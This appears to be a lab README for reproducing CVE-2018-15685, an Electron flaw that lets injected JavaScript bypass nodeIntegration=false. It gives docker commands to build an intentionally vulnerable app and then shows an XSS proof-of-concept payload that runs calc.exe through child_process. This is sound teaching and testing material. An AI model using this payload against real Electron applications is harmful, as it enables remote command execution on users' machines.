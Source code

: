 # Electron WebPreferences Remote Code Execution Vulnerability（CVE-2018-15685）

[中文版本(Chinese version)](README.zh-cn.md)

Electron is an open source library developed by GitHub for building cross-platform desktop applications with HTML, CSS, and JavaScript. Electron accomplishes this by combining Chromium and Node.js into a single runtime and apps can be packaged for Mac, Windows, and Linux.

When Electron sets `nodeIntegration=false` (default), the JavaScript in the page cannot access the built-in library of node.js. CVE-2018-15685 bypass this limitation, enabling arbitrary commands to be executed if the user can execute JavaScript (such as when accessing a third-party page or an XSS vulnerability exists in the app).

Reference links:

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## Compile application

Execute the following command to compile an  vulnerability application:

```
docker compose run -e PLATFORM=win64 --rm electron
```

The value of `PLATFORM` is the operating system on which the application is running. The options are:`win64`、`win32`、`mac`、`linux`。

After the compilation completed, execute the following command to run the web service:

```
docker compose run --rm -p 8080:80 web
```

Now，access`http://your-ip:8080/cve-2018-15685.tar.gz`to download application.

## expliot

Open the app:

![](1.png)

Click submit, the content in the input box will be displayed in the app, and there is obviously an XSS vulnerability.

We submit `<img src=1 onerror="require('child_process').exec('calc.exe')">` and find that nothing happens, because `nodeIntegration=false`.

At this time, submit the POC (Windows):

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

As you see, calc.exe shows up.

![](2.png)
